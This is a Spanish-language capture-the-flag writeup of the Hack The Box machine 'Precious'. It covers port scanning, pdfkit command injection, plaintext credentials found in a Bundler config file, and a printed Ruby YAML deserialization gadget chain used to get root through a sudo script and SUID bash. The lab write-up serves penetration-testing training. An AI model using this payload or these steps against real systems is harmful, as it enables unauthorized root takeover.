





pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: Precious Writeup
Welcome to my detailed writeup of the easy difficulty machine “Precious” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.228.98 --ulimit 5000 -g
10.129.228.98 -> [22,80]
$ nmap -p22,80 -sCV 10.129.228.98 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 16:48 CEST
Nmap scan report for 10.129.228.98
Host is up (0.037s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
| 256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_ 256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open http nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.02 seconds
Encontramos el dominio precious.htb, así que lo añadimos al /etc/hosts
UDP Enumeration
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.228.98 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 16:49 CEST
Nmap scan report for 10.129.228.98
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT STATE SERVICE
21898/udp closed unknown
23256/udp closed unknown
25249/udp closed unknown
28692/udp closed unknown
31743/udp closed unknown
61142/udp closed unknown
El punto de entrada a esta máquina debe de ser el puerto 80/TCP
HTTP Enumeration

Vemos que efectivamente, el servidor nos hace una solicitud.
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.98 - - [05/Aug/2024 16:53:09] "GET / HTTP/1.1" 200 -
Me interesa saber el User-Agent ya que quizás pueda revelar información relevante, así que me voy a poner en escucha con netcat
$ sudo nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.228.98] 39566
GET / HTTP/1.1
Host: 10.10.14.18:8081
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Detectamos que se está usando wkhtmltopdf el cual tiene una vulnerabilidad SSRF que ya he explotado en otras ocasiones, pero esta vez por ahí no van los tiros.
Command Injection -> Foothold
Si nos descargamos un PDF generado por esta aplicación y miramos los metadatos, podemos ver lo siguiente
$ exiftool owh68flhpo0qrmf14hqn7slwa51tkwks.pdf
ExifTool Version Number : 12.57
File Name : owh68flhpo0qrmf14hqn7slwa51tkwks.pdf
Directory : .
File Size : 11 kB
File Modification Date/Time : 2024:08:05 16:53:10+02:00
File Access Date/Time : 2024:08:05 16:53:10+02:00
File Inode Change Date/Time : 2024:08:05 16:57:24+02:00
File Permissions : -rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.4
Linearized : No
Page Count : 1
Creator : Generated by pdfkit v0.8.6
pdfkit v0.8.6
Una simple búsqueda en Google..

Utilizando este PoC 

User Pivoting
En busca de la flag me dí cuenta de un directorio un tanto inusual, .bundle
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Aug 5 06:39 .
drwxr-xr-x 4 root root 4096 Oct 26 2022 ..
lrwxrwxrwx 1 root root 9 Oct 26 2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby 220 Mar 27 2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27 2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Aug 5 06:39 .cache
-rw-r--r-- 1 ruby ruby 807 Mar 27 2022 .profile
¡Unas credenciales!
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26 2022 .
drwxr-xr-x 4 ruby ruby 4096 Aug 5 06:39 ..
-r-xr-xr-x 1 root ruby 62 Sep 26 2022 config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
Investigando sobre este archivo, es una herramienta para gestionar las dependencias de los proyectos en Ruby.
ssh henry@10.129.228.98
The authenticity of host '10.129.228.98 (10.129.228.98)' can't be established.
ED25519 key fingerprint is SHA256:1WpIxI8qwKmYSRdGtCjweUByFzcn0MSpKgv+AwWRLkU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.98' (ED25519) to the list of known hosts.
henry@10.129.228.98's password:
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$
Y podríamos leer la flag de usuario.
henry@precious:~$ cat /home/henry/user.txt
0801b15e447149...
Privilege Escalation
Podemos ejecutar el script /opt/update_dependencies.rb como el usuario root
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
Este es el script
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
gems_local.each do |local_name, local_version|
if(file_name == local_name)
if(file_version != local_version)
puts "Installed version differs from the one specified in file: " + local_name
else
puts "Installed version is equals to the one specified in file: " + local_name
end
end
end
end
Al buscar en Google el método YAML.load el cual me llamó la atención…

Me llamó la atención ya que este archivo se carga de forma relativa, por lo cual podríamos secuestrar el archivo dependencies.yml y conseguir la deserialización.
Vamos a usar este PoC.
Nos creamos un archivo dependencies.yml
henry@precious:/tmp$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
i: x
- !ruby/object:Gem::SpecFetcher
i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: id
method_id: :resolve
Ahora si todo sale bien, se debería de ejecutar el comando id que es el que está en el campo git_set
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
33: from /opt/update_dependencies.rb:17:in `<main>'
32: from /opt/update_dependencies.rb:10:in `list_from_file'
31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
....
Y podemos ver que se ejecuta.
Ahora solo falta cambiar el comando que queremos ejecutar en el archivo dependencies.yml

henry@precious:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27 2022 /bin/bash
Ahora ejecutamos el script…
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27 2022 /bin/bash
henry@precious:/tmp$ bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry
Y ya nos hemos convertido en root.
Y podríamos leer la flag.
bash-5.1# cat /root/root.txt
57c37a02615a95fcde....
¡Y ya estaría!
Happy Hacking! 🚀